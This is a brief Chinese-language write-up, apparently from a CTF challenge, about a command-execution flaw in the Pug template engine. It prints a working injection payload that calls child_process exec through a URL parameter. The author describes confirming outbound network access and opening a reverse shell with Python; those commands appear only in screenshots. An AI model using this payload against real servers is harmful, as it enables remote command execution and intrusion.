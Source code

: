 而pug这里存在命令执行漏洞，原因在pug模版引擎的一个[issue](https://github.com/pugjs/pug/issues/3312)中提到的

payload

```php
./?p=');process.mainModule.constructor._load('child_process').exec('whoami');_=('
```

反思：exec是不回显的！一直让我以为是我打的方式不对...

既然没回显那试一下发现是通外网的，就弹个shell回来。这算是个注入，一打整个界面变得惨不忍睹

![image-20210803153836972](2021dfjk/image-20210803153836972.png)

普通的弹shell命令似乎并不管用，直接干它 用python命令弹shell

![image-20210803153955025](2021dfjk/image-20210803153955025.png)
